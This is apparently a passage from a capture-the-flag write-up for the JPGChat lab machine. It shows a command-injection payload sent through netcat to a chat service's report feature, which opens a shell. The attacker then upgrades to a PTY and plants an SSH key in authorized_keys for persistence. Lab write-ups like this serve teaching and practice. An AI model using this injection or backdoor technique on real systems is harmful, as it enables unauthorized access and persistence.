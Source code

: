 ~~~
echo ''                       > /opt/jpchat/logs/report.txt
echo 'bla';/bin/bash;echo '' >> /opt/jpchat/logs/report.txt
~~~

## Exploit

Use anything for the name and send `bla';/bin/bash;echo '` for the report:

~~~
kali@kali:/data/JPGChat$ nc 10.10.65.28 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
bla
your report:
bla';/bin/bash;echo '
myname
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
~~~

## SSH connection

At this stage, it seems to be a good idea to add your SSH public key to be able to directly connect via SSH.

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
wes@ubuntu-xenial:~$ ll  
ll
total 24
drwxr-xr-x 2 wes  wes  4096 Jan 15 18:58 ./
drwxr-xr-x 3 root root 4096 Jan 15 18:57 ../
-rw------- 1 wes  wes     0 Jan 15 18:58 .bash_history
-rw-r--r-- 1 wes  wes   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 wes  wes  3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 wes  wes   655 Jul 12  2019 .profile
-rw-r--r-- 1 root root   38 Jan 15 18:58 user.txt
wes@ubuntu-xenial:~$ mkdir .ssh
mkdir .ssh
wes@ubuntu-xenial:~$ cd .ssh
cd .ssh
wes@ubuntu-xenial:~/.ssh$ cat > authorized_keys << EOF
cat > authorized_keys << EOF
> ssh-rsa AAAAB3NzaC1yc2EAAAADAQA[REDACTED]5IKZVtD53kcT6xDO+m7pk= kali@kali       
> EOF
EOF
~~~


[MESSAGE]: hello
[MESSAGE]: quit
[MESSAGE]: ^C